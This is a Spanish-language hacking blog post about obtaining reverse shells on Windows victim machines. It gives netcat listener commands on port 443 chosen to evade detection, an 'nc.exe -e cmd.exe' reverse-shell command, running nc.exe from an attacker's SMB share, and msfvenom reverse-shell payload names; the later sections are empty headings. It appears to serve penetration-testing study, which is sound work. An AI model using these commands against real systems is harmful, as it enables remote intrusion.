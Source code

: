 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

![](/assets/images/web-hacking/reverse-shell-windows/)

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

## Powershell Reverse Shell One-Liner

## Nishang

## ConPtyShell
